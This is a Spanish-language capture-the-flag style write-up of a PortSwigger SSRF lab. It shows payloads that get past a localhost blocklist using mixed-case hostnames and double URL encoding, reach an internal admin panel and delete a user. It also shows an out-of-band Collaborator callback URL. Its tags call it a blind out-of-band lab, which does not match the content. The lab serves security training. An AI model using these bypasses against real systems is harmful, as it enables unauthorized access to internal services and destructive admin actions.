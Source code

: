 ```yaml
---
title: SSRF Lab 4
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSRF
tags:
  - SSRF
  - Blind SSRF with out-of-band detection
image:
  path: /assets/img/SSRF-Lab-4/Portswigger.png
---
```


## Skills

- Blind SSRF with out-of-band detection

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `inventario` para `acceder` a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `Carlos`. El desarrollador ha implementado dos `medidas` defensivas `débiles` contra `SSRF` que necesitaremos eludir

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-4/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto

![](/assets/img/SSRF-Lab-4/image_2.png)

Hacemos `click` sobre la función `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-4/image_3.png)

Esta función está `enviando` estos `datos` por `POST`

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://l1nvttjpdegib5zaazzc93buslycm3as.oastify.com
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator`

![](/assets/img/SSRF-Lab-4/image_4.png)

Si mandamos un petición con este `payload` nos lo `bloquea` y nos muestra el `mensaje` de `External stock check blocked for security reasons`

```
stockApi=http://localhost/admin
```

De esta forma `evitamos` las `medidas defensivas` contra `SSRF`

```
stockApi=http://LoCaLHost/AdMIn
```

También podemos `ofuscar` el `payload` urlencodeandolo dos veces

```
stockApi=http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-4/image_5.png)

Vemos que estamos ante un `panel administrativo`

![](/assets/img/SSRF-Lab-4/image_6.png)

Si pulsamos `Delete` para `borrar` al usuario `carlos` no nos dejará, debido a que no estamos `logueados` como usuario `administrador`

![](/assets/img/SSRF-Lab-4/image_7.png)

Para poder `eliminarlo` debemos usar el `SSRF`

```
stockApi=http://LOCaLhOsT/AdMIN/dELeTe?username=carlos
```
